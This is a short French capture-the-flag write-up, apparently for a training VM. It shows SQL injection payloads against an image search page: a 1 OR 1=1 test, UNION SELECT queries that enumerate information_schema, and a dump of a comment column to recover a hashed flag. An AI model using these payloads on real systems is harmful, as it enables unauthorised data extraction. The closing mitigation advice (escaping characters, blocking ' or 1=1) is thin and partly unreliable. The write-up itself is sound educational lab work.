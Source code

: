 Résolution:

Pour savoir si une attaque SQL est possible (c'est a dire utiliser des commandes pour chercher des informations dans la base de donné) depuis le front, j'ai utilisé la commende suivante
1 OR 1=1

Ca affiche toutes les images d'un coup a cette adresse:
http://192.168.56.101/index.php?page=searchimg
On remarque une image qui a pour titre "Hack me ?"

Ensuite la commande suivante nous donne le nom de deux bases de données:
1 UNION select 1, database()

Pour avoir le nom de la table contenant les informations qui nous interesse on peut faire la commande suivante:
1 UNION select 1, table_name from Information_schema.tables where table_schema = database()
La table qui nous interesse est "list_image"

Pour avoir le nom des colones de la table "list_image", on peut faire une recherche parmis les résultats de la commande suivante:
1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns
On obtient id, url, title et comment.

Si on veut par exemple la colonne comment, on peut utiliser cette commande:
1 UNION SELECT id, comment FROM list_images

on trouve ce message: 
"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
Ce qui décripté donne albatroz. Ce qui donne le flag en sha256

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


Il est possible d'escape les caractères spéciciaux comme %20 pour les espaces, pour que le code SQL ne soient plus lisible.
C'est possible aussi d'interdir certains caractères ou bout de code comme ' ou 1=1.
